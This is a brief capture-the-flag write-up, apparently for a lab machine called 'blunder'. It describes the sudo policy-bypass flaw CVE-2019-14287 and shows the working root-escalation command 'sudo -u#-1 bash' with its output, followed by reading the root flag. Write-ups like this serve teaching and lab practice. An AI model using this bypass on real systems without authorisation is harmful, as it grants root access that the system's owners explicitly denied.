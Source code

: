 The vulnerability in a sudo security policy bypass issue that could allow a malicious user or a program to
execute arbitrary commands as root on a targeted Linux system even when the "sudoers configuration" explicitly
disallows the root access.

### The Restriction
```
(ALL, !root) /bin/bash
```

CVE-2019-14287 => https://nvd.nist.gov/vuln/detail/CVE-2019-14287

```
(remote) hugo@blunder:/dev/shm$ sudo -u#-1 bash
Password: 
root@blunder:/dev/shm# id
uid=0(root) gid=1001(hugo) groups=1001(hugo)
```

# The Root Flag
```
root@blunder:/dev/shm# cd /root
root@blunder:/root# ls -l
total 4
-r-------- 1 root root 33 Mar 31 23:28 root.txt
```

```
root@blunder:/root# cat root.txt 
e7e3042135546d6a22cffbfe125ba415
```
